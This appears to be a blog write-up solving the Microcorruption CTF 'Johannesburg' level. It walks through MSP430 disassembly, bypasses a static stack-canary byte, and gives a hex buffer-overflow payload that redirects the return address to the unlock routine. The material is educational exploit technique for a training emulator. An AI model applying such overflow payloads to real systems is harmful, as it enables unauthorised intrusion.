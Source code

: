 ```yaml
---
title: "microcorruption - johannesburg"
date: 2018-03-09T14:31:25+02:00
categories: 
- ctf
- exploit
- assembly
- microcorruption
- johannesburg
---
```


{{< figure src="/images/microcorruption/microcorruption.png" >}}

This post is part of the series of solving [microcorruption.com](https://microcorruption.com) ctf challenges which continues from the [previous challenge](https://leonjza.github.io/blog/2018/03/07/microcorruption---whitehorse/) called _Montevideo_. This challenge is titled _Johannesburg_.

The challenge has the following description when you start:

> This is Software Revision 04. We have improved the security of the lock by ensuring passwords that are too long will be rejected.

Alright. This might mean that we are done with the overflow challenges? Lets dive in!
<!--more-->

## johannesburg

Just like we have seen in a number of previous challenges now, Johannesburg follows a similar structure with the `main` routine simply calling `login`. Within the `login` routine a number of steps are taken.

```asm
452c <login>

[.. get the password with getsn ..]

4552:  3e40 0024      mov   #0x2400, r14
4556:  0f41           mov   sp, r15

; maybe copying the password to a different location
; in memory again.
4558:  b012 2446      call  #0x4624 <strcpy>
455c:  0f41           mov   sp, r15

; check the password. routine issues syscall 0x7d which
; will ask the HSM to validate.
455e:  b012 5244      call  #0x4452 <test_password_valid>
4562:  0f93           tst   r15
4564:  0524           jz    #0x4570 <login+0x44>
4566:  b012 4644      call  #0x4446 <unlock_door>

[.. messages about the status of the unlock ..]

; ooh, interesting random single byte compare? Seems like
; this is specifically for a length check. lol.
4578:  f190 6a00 1100 cmp.b #0x6a, 0x11(sp)
457e:  0624           jeq   #0x458c <login+0x60>
4580:  3f40 ff44      mov   #0x44ff "Invalid Password Length: password too long.", r15
4584:  b012 f845      call  #0x45f8 <puts>
4588:  3040 3c44      br    #0x443c <__stop_progExec__>
458c:  3150 1200      add   #0x12, sp
4590:  3041           ret
```

Everything seems to be pretty much as expected, apart from the byte compare that happens at `0x4578`. The instruction at `0x4578` compares the byte that is at `sp + 0x11` with `0x6a`, just like a static stack canary.

To inspect this a little closer, I set a breakpoint at the `cmp.b` instruction with `break 4578` and entered 20 `41`'s as a hex encoded password.

{{< figure src="/images/microcorruption/johannesburg_stack_canary.png" >}}

Stepping through the program to pass the `jeq` instruction saw that the program would not take the jump and continue to print the message about the password being too long. Inspecting the memory with `read sp+11` also showed that the byte contained `41`, which will cause the `cmp.b` to set a non equal status register.

To bypass this check, all we need to do is provide `0x6a` in the correct position so that the `cmp.b` will result in an equal status. Inspecting the memory (as well as the instruction `0x11(sp)`), we can see this is at offset 17. All we need to do is pad the password payload and provide `0x6a` as the 17th byte.

```python
python -c "print('41' * 0x11 + '6A' + '42' * 10)"
41414141414141414141414141414141416A42424242424242424242
```

{{< figure src="/images/microcorruption/johannesburg_stack_canary.png" >}}

Once the canary check has passed, the code flow jumps to `0x458c` which adds `0x12` to the stack pointer which also happens to be right after the canary value. Considering we have a nice helper routine to unlock the lock at `0x4446`, all we need to do is provide that (little endian formatted) address to jump to and profit.

```python
python -c "print('41' * 0x11 + '6A' + '4644')"
41414141414141414141414141414141416A4644
```

{{< figure src="/images/microcorruption/johannesburg_solve.png" >}}

## solution

Enter `41414141414141414141414141414141416A4644` as hex encoded input.

## other challenges

For my other write ups in the microcorruption series, checkout [this](https://leonjza.github.io/categories/microcorruption/) link.
